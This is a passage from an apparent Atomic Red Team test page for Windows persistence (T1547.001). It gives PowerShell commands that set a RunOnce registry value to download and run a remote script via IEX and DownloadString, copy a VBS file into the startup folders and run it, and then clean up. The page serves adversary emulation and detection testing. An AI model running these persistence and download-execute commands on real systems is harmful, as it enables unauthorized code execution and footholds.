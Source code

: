 
#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$RunOnceKey = "#{reg_key_path}"
set-itemproperty $RunOnceKey "NextRun" '#{thing_to_execute} "IEX (New-Object Net.WebClient).DownloadString(`"https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1547.001/src/Discovery.bat`")"'
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path #{reg_key_path} -Name "NextRun" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #4 - Suspicious vbs file run from startup Folder
vbs files can be placed in and ran from the startup folder to maintain persistance. Upon execution, "T1547.001 Hello, World VBS!" will be displayed twice. 
Additionally, the new files can be viewed in the "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"
folder and will also run when the computer is restarted and the user logs in.

**Supported Platforms:** Windows


**auto_generated_guid:** 2cb98256-625e-4da9-9d44-f2e5f90b8bd5






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item "$PathToAtomicsFolder\T1547.001\src\vbsstartup.vbs" "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\vbsstartup.vbs"
Copy-Item "$PathToAtomicsFolder\T1547.001\src\vbsstartup.vbs" "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\vbsstartup.vbs"
cscript.exe "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\vbsstartup.vbs"
cscript.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\vbsstartup.vbs"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\vbsstartup.vbs" -ErrorAction Ignore
Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\vbsstartup.vbs" -ErrorAction Ignore
```
